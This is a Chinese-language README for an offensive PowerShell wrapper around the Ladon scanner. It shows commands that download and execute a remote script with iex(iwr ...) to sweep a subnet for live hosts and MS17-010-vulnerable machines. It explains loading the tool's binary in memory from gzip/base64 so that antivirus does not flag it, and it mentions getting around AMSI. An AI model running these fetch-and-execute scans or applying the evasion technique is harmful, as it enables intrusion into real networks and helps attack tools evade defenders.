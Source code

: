 



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)


### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
